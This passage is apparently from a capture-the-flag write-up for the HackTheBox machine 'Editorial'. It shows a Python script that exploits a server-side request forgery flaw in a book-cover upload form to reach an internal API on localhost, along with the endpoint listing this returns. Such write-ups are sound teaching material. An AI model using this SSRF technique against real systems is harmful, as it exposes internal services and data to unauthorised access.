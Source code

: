 

From the results of that API, it showed a swagger-esque list of endpoints that were available. So I simply call each through that same reflection method to see the contents.


```python
def ssrf_reflection(internal_target):
    response = requests.post('http://editorial.htb/upload-cover', files={'bookfile': ''}, data={'bookurl': f'{internal_target}'})
    if 'jpeg' not in response.text:
        result = requests.get(f'http://editorial.htb/{response.text}')
        return result
    else:
        print('failed to call resource')
        return None

# Map internal site

root_page = ssrf_reflection('http://127.0.0.1:5000')
pprint(root_page.json())

promotions = ssrf_reflection('http://127.0.0.1:5000/api/latest/metadata/messages/promos')
coupons = ssrf_reflection('http://127.0.0.1:5000/api/latest/metadata/messages/coupons')
new_authors = ssrf_reflection('http://127.0.0.1:5000/api/latest/metadata/messages/authors')
platform_use = ssrf_reflection('http://127.0.0.1:5000/api/latest/metadata/messages/how_to_use_platform')
changelog = ssrf_reflection('http://127.0.0.1:5000/api/latest/metadata/changelog')
latest = ssrf_reflection('http://127.0.0.1:5000/api/latest/metadata')
```

```javascript
    {'messages': [{'promotions': {'description': 'Retrieve a list of all the '
                                                 'promotions in our library.',
                                  'endpoint': '/api/latest/metadata/messages/promos',
                                  'methods': 'GET'}},
                  {'coupons': {'description': 'Retrieve the list of coupons to use '
                                              'in our library.',
                               'endpoint': '/api/latest/metadata/messages/coupons',
                               'methods': 'GET'}},
                  {'new_authors': {'description': 'Retrieve the welcome message '
                                                  'sended to our new authors.',
                                   'endpoint': '/api/latest/metadata/messages/authors',
                                   'methods': 'GET'}},
                  {'platform_use': {'description': 'Retrieve examples of how to '
                                                   'use the platform.',
                                    'endpoint': '/api/latest/metadata/messages/how_to_use_platform',
                                    'methods': 'GET'}}],
     'version': [{'changelog': {'description': 'Retrieve a list of all the '
                                               'versions and updates of the api.',
                                'endpoint': '/api/latest/metadata/changelog',
                                'methods': 'GET'}},
                 {'latest': {'description': 'Retrieve the last version of api.',
                             'endpoint': '/api/latest/metadata',
                             'methods': 'GET'}}]}
```

